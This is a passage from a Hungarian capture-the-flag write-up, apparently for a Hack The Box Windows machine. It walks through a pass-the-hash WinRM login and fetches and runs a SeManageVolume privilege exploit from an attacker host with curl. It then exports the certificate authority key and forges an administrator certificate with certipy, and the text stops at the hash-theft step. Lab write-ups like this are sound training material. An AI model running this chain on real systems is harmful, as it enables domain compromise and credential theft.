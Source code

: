 ### WinRM:

```bash
evil-winrm -i 10.10.11.71 -u ryan.k -H [ryan.k_hash]
```

## Privilege escalation

Jogosultság ellenőrzése:

```powershell
whoami /priv
```

**Kiemelt: `SeManageVolumePrivilege`**

### Exploit letöltése/futtatása

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public / SeaManageVolumeExploit.exe letöltése

```bash
curl 10.10.14.8/SeManageVolumeExploit.exe -O SeManageVolumeExploit.exe
.\SeManageVolumeExploit.exe
```

### Teszt:

```powershell
echo "test" > C:\Windows\poc.txt
type C:\Windows\poc.txt
```

## Certificate Authority tanúsítvány export

```powershell
mkdir /temp
certutil -exportPFX my "Certificate-LTD-CA" C:\temp\ca.pfx
```

Letöltés:

```
download ca.pfx
```

## Admin tanúsítvány hamisítása

```bash
certipy forge -ca-pfx ca.pfx -upn 'administrator@certificate.htb' -out forged_admin.pfx
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Saved forged certificate and private key to 'forged_admin.pfx'
```

## Admin NTLM hash szerzése
